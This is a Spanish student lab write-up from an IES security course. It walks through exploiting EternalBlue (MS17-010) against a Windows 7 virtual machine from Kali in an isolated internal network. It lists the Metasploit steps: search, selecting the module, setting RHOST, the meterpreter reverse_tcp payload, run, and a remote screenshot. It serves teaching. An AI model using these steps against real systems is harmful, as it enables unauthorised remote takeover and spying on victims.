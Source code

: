 # SAD_2021--Vulnerabilidades---Metasploit

## Práctica del módulo de ***Seguridad y Alta Disponibilidad***

- Alumno: Fernando Páez Martín
- Curso: 2ºB - A.S.I.R.
- IES Punta del Verde

![alt Metalogo](Metasploit.png)

Haremos una busqueda de información sobre esta herramienta que permite ejecutar y desarrollar exploits contra sistemas objetivos. La primera opción antes de usar la propia herramienta va a consistir en recopilar información sobre el sistema objetivo. A partir de los datos obtenidos, se tomarán las decisiones acordes y los pasos a seguir en etapas posteriores.

- Descarga de las herramientas de Metasploitable y Máquina Virtual de Kali linux.
- Descarga de imagen iso de windows 7 para realizar el estudio de la vulnerabilidad y creacion de la máquina virtual.

## Recopilación de información

La tarea a desarrollar irá enfocada a la vulnerabilidad catalogada en la base de datos de vulnerabilidades CVE como:

[MS17-0144 - Eternalblue](https://www.cvedetails.com/cve/CVE-2017-0144/)

EternalBlue explota una vulnerabilidad en protocolo Server Message Block (SMB). Esta vulnerabilidad se dio porque el servidor SMB v1 (SMBv1) de Microsoft Windows manejaba mal paquetes especialmente diseñados por atacantes remotos, permitiendo ejecutar código sobre el equipo a que ataca.

## Configuración de las máquinas virtuales

Se configuran en un entorno llamado "Red Interna" y dentro del mismo rangode red:

- Kali con 10.0.2.10/8

 	![Ip Kali](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/1.png)

- Windows con 10.0.2.11/8
  
  ![Ip Windows](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/2.png)
  
- Comprobamos que las dos máquinas tienen conectividad entre si haciendo ping entre ellas:

  ![Ping Windows](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/3.png)
  
  ![Ping Kali](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/4.png)


## Ejecución de escaner de red Nmap

Con esta herramienta descubriremos puertos y servicios abiertos en la máquina objetivo.

  ![msfconsole](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/7.png)
  


## Metasploit Framework (MSF) 

En la primera fase ejecutaremos este framework para buscar exploits usar, descargar payloads y ejecutarlos.

**msfconsole**
 	
  ![msfconsole](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/5.png)


Usaremos su buscador para encontrar el exploit:

**search eternalblue**

  ![search msf](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/6.png)


De los resultados elegiremos la primera opción:

***0  exploit/windows/smb/ms17_010_eternalblue  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption***

**use 0**

  ![search msf](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/8.png)

Nos devuelve:

**No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp**


Vemos que parámetros son requeridos con el comando:
**options**

![options](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/9.png)


nos pide datos del equipo remoto o **RHOST**. Le indicamos la ip del equipo remoto 10.0.2.11

![set rhost](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/10.png)


Podemos ver una serie de payloads a ejecutar:

![varios payloads](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/11.png)


Vamos a realizar la prueba con el siguiente **windows/x64/meterpreter/reverse_tcp**:

![reverse_tcp](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/12.png)


Le indicamos que se ejecute con **run**

![run](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/13.png)


Podemos ver las distintas opciones que nos ofrece este exploit con **options**

![options](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/14.png)


Como ejemplo ejecutaremos el comando **screenshot** y nos hará una captura de pantalla de la máquina remota.


![screenshot](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/15.png)

Mostramos la captura realizada:

![screenshot2](https://github.com/fernandopaezmartin/SAD_2021--Vulnerabilidades---Metasploit/blob/main/imagenes/16.png)
